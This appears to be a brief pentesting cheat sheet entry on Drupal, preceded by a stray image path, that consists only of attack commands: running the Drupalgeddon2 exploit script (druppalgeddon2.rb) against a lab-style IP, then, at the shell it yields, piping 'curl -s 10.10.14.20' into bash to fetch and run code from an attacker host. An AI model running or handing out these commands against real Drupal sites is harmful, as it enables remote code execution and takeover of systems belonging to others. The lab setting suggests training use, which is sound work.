 # Drupal

## Drupal Exploits

### Druppalgeddon

```text
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```

